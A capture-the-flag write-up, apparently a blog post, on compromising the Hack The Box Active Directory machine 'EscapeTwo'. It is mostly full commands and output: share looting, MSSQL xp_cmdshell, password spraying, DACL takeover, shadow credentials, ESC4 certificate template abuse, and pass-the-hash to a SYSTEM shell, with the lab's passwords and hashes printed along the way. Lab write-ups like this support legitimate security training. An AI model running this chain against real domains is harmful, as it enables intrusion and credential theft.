

## Overview
EscapeTwo is a Windows-based Active Directory environment demonstrating common security misconfigurations including credential exposure, insecure certificate template configurations, and privilege escalation vectors through DACL modification. The path to domain compromise involves MSSQL service account compromise, certificate template manipulation, and shadow credential attacks.

## Reconnaissance
During the reconnaissance phase, I ran Nmap to enumerate open ports and services. The scan results appeared common Active Directory ports such as kerberos and ldap. Also its revealed 445/tcp SMB (Server Message Block) service.

```shell
Nmap scan report for 10.10.11.51
Host is up (0.034s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-23 11:46:15Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-04-23T11:47:44+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-04-23T10:13:44
|_Not valid after:  2055-04-23T10:13:44
|_ssl-date: 2025-04-23T11:47:44+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-04-23T11:47:44+00:00; 0s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49693/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
49722/tcp open  msrpc         Microsoft Windows RPC
49809/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-04-23T11:47:08
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```
{: .nolineno}

After discovering the domain names and domain controller, I added them to the `/etc/hosts` file to resolve the domain locally. 

```shell
echo '10.10.11.51 DC01.sequel.htb DC01 sequel.htb' | sudo tee -a /etc/hosts
```
Using low-privilege credentials, I enumerated shared folders with netexec and discovered the Accounting Department shared folder with READ permission. 

```shell
➜ escapetwo  nxc smb 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share
SMB         10.10.11.51     445    DC01             Users           READ
```
{: .nolineno}

I logged into the SMB service using the smbclient command with the rose user. Inside the Accounting Department shared folder, there were two files. The accounts.xlsx file caught my attention because it likely stored user credentials.

```shell
➜ escapetwo  smbclient //sequel.htb/Accounting\ Department -U rose
[SNIP]
smb: \> ls
  .                                   D        0  Sun Jun  9 10:52:21 2024
  ..                                  D        0  Sun Jun  9 10:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 10:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 10:52:07 2024

                6367231 blocks of size 4096. 927648 blocks available
smb: \> mget accounts.xlsx
Get file accounts.xlsx? y
getting file \accounts.xlsx of size 6780 as accounts.xlsx (26.1 KiloBytes/sec) (average 26.1 KiloBytes/sec)
```
{: .nolineno}

The accounts.xlsx file was identified as a zip file. I extracted the file and found the credentials in the sharedStrings.xml file.

```shell
➜ escapetwo  file accounts.xlsx
accounts.xlsx: Zip archive data, made by v2.0, extract using at least v2.0, last modified, last modified Sun, Jun 09 2024 10:47:44, uncompressed size 681, method=deflate

➜ escapetwo  unzip accounts.xlsx
➜ escapetwo  grep -R Password
xl/sharedStrings.xml: sa:MSSQLP@ssw0rd!
```
{: .nolineno}

With the discovered password `MSSQLP@ssw0rd!`, I accessed Microsoft SQL Server using the `sa` (database system administrator) account. Once access is successful,  and I then enables xp_cmdshell to execute system commands through SQL Server. Once enabled, I read the SQL Server configuration file (sql-Configuration.INI) and discovers the SQL service credentials:

```shell
➜ escapetwo  mssqlclient.py -dc-ip 10.10.11.51 -target-ip 10.10.11.51 -port 1433 sequel.htb/sa:'MSSQLP@ssw0rd!'@10.10.11.51
[SNIP]
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE
SQL (sa  dbo@master)> xp_cmdshell type C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI
output
-------------------------------------------------
[SNIP]
SQLSVCACCOUNT="SEQUEL\sql_svc"

SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
[SNIP]
```
{: .nolineno}

With the new password, I performed a **password spraying attack** on all domain users. The result was successful: the password `WqSZAF6CysDQbGb3` was valid for user **ryan.**

```shell
➜ escapetwo  nxc smb 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --rid-brute | grep SidTypeUser | awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt

➜ escapetwo  nxc smb 10.10.11.51 -u users.txt -p 'WqSZAF6CysDQbGb3'
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [-] sequel.htb\Administrator:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\Guest:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\krbtgt:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\DC01$:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\michael:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
```
{: .nolineno}

## Lateral Movement
I currently have access as the user `ryan`. Next, I performed an Active Directory enumeration using **BloodHound Python** to understand trust relationships and privilege escalation paths.

```shell
➜ escapetwo  bloodhound-python -ns 10.10.11.51 -d sequel.htb -c ALL --zip -u 'ryan' -p 'WqSZAF6CysDQbGb3'
INFO: Found AD domain: sequel.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 10 users
INFO: Found 59 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.sequel.htb
INFO: Done in 00M 15S
INFO: Compressing output into date_bloodhound.zip
```
{: .nolineno}

From BloodHound's analysis, it appears that user **ryan** has **Write Owner** rights on the **ca_svc** object.


_Figure 1. Ryan has Write Owner over CA-SVC_

I took advantage of this right to take over ownership of the **ca_svc** account.

```shell
➜ escapetwo  bloodyAD --host "dc01.sequel.htb" -d "sequel.htb" -u "ryan" -p "WqSZAF6CysDQbGb3" set owner "ca_svc" "ryan"
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
```
{: .nolineno}

After becoming the owner, I gave Ryan **Full Control** rights over the `ca_svc` account.

```shell
➜ escapetwo  dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```
{: .nolineno}

With full control over the `ca_svc` account, I changed the account's UPN (User Principal Name) to facilitate the AD CS attack.

```shell
➜ escapetwo  certipy account -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -dc-ip '10.10.11.51' -upn 'administrator' -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```
{: .nolineno}

Then, I performed a **Shadow Credentials attack** to gain access as `ca_svc` .

```shell
➜ escapetwo  certipy shadow auto -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -dc-ip '10.10.11.51' -account 'ca_svc'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '739efc32-6997-ac1d-47f4-fadc750776a8'
[*] Adding Key Credential with device ID '739efc32-6997-ac1d-47f4-fadc750776a8' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '739efc32-6997-ac1d-47f4-fadc750776a8' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```
{: .nolineno}

With the `ca_svc` credentials, I searched for vulnerable certificate templates.

```shell
➜ escapetwo  certipy find -enabled -vulnerable -u 'ca_svc@sequel.htb' -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -dc-ip 10.10.11.51
"CA Name": "sequel-DC01-CA"
"Certificate Templates":
"Template Name": "DunderMifflinAuthentication"
"[!] Vulnerabilities":
"ESC4": "User has dangerous permissions."
```
{: .nolineno}

The `DunderMifflinAuthentication` template has an **ESC4** vulnerability - the `ca_svc` user has dangerous permissions to modify the template. I exploited this.

```shell
➜ escapetwo  certipy template \
    -u 'ca_svc@sequel.htb' -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' \
    -dc-ip '10.10.11.51' -template 'DunderMifflinAuthentication' \
    -write-default-configuration
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving current configuration to 'DunderMifflinAuthentication.json'
[*] Wrote current configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y
[*] Successfully updated 'DunderMifflinAuthentication'
```
{: .nolineno}

After modifying the template, I requested a certificate with the administrator UPN.

```shell
➜ escapetwo  certipy req -u  'ca_svc@sequel.htb' -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -dc-ip '10.10.11.51' -target 'DC01.sequel.htb' -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn 'administrator@sequel.htb'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 8
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```
{: .nolineno}

## **Domain Compromise**
With the administrator certificate, I authenticated and obtains the administrator's NTLM hash.

```shell
➜ escapetwo  certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51 -username 'administrator' -domain sequel.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```
{: .nolineno}

Confirm administrator rights in BloodHound:


_Figure 2. administrator are members of several object groups_

Finally, I got full SYSTEM access to the domain controller.

```shell
➜ escapetwo  psexec.py sequel.htb/administrator@10.10.11.51 -hashes :7a8d4e04986afa8ed4060f75e5a0b3ff
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.10.11.51.....
[-] share 'Accounting Department' is not writable.
[*] Found writable share ADMIN$
[*] Uploading file VSSNtXBl.exe
[*] Opening SVCManager on 10.10.11.51.....
[*] Creating service NrtI on 10.10.11.51.....
[*] Starting service NrtI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6640]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
{: .nolineno}
